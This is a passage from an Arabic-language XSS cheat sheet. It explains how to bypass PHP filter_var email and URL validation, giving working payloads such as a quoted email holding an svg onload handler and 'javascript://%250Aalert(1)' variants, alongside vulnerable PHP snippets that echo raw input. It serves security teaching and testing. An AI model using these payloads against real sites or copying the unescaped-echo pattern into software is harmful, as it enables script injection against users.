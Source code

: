 **لماذا يعمل؟**
- `filter_var()` قد تقبل تنسيقات بريد غير قياسية.
- `<svg onload=alert(1)>` يُنفذ عند انعكاس المدخلات.
- يتجاوز مرشحات التحقق من البريد.

### ✅ الكود المصاب:

```php
if(filter_var($_POST['email'], FILTER_VALIDATE_EMAIL)) {
    echo $_POST['email'];
}
```

### 🔍 الاكتشاف:

- جرب بريد مثل:
    
    ```
    "><svg/onload=alert(1)>"@x.y
    ```
  
**الخلاصة:**
تجاوز تحقق البريد باستخدام `"><svg/onload=alert(1)>"@x.y` فعال لأنه يُضمن XSS في بريد مقبول.

---

## **8. تجاوز التحقق من URL في PHP (PHP URL Validation Bypass)**
{ #ideas_for_url / #XSS_ecoded_payload  }
**الشرح البسيط:**
يُستخدم لتجاوز دالة PHP `filter_var()` مع `FILTER_VALIDATE_URL` (مع أو بدون `FILTER_FLAG_QUERY_REQUIRED`) بإدخال URL يحتوي على XSS.

**أمثلة تعمل:**
- `javascript://%250Aalert(1)`: يُعتبر URL صالحًا ويُنفذ `alert(1)`.
- `javascript://%250Aalert(1)//?1`: يتطلب استعلامًا.
- `javascript://%250A1?alert(1):0`: يستخدم شرطًا لتنفيذ `alert(1)`.
- `javascript://https://DOMAIN/%250A1?alert(1):0`: مع مرشح نطاق.

**لماذا يعمل؟**
- `javascript:` يُعتبر بروتوكول صالح في بعض الحالات.
- `%0A` (فاصل سطر) يُضلل التحقق.
- يتجاوز مرشحات URL بإدخال JavaScript.

### ✅ الكود المصاب:

```php
if(filter_var($_GET['url'], FILTER_VALIDATE_URL)) {
    echo "<a href='{$_GET['url']}'>Link</a>";
}
```

### 🔍 الاكتشاف:
